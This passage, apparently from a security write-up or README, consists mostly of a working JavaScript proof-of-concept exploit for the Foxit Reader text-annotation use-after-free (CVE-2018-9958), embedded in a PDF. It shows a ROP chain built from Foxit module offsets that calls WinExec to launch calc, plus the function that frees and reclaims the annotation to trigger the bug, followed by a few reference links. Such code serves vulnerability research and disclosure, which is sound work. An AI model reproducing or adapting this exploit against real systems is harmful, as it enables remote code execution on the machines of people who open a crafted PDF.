 ```JavaScript
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);
        
        rop[0x00] = 0x11000048;              // pointer to our stack pivot from the heap spray
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret
        rop[0x0c] = 0x636c6163;              // calc
        rop[0x0d] = 0x00000000;              // adios, amigo

        for (var j = 0x0e; j < rop.length; j++) {
            rop[j] = 0x71727374;
        }
    }
}

function trigger_uaf(){
    /*
        Foxit Reader Text Annotations point Use-After-Free Remote Code Execution Vulnerability
        ZDI-CAN-5620 / ZDI-18-342 / CVE-2018-9958
        Found By: Steven Seeley (mr_me) of Source Incite
    */

    var that = this;
    var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});
    var arr = [1];
    Object.defineProperties(arr,{
        "0":{ 
            get: function () {

                // free
                that.getAnnot(0, "uaf").destroy();

                // reclaim freed memory
                reclaim();
                return 1; 
            }
        }
    });
    a.point = arr;
}

leak();
heap_spray(0x800);
trigger_uaf();

)>> trailer <</Root 1 0 R>>
```


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo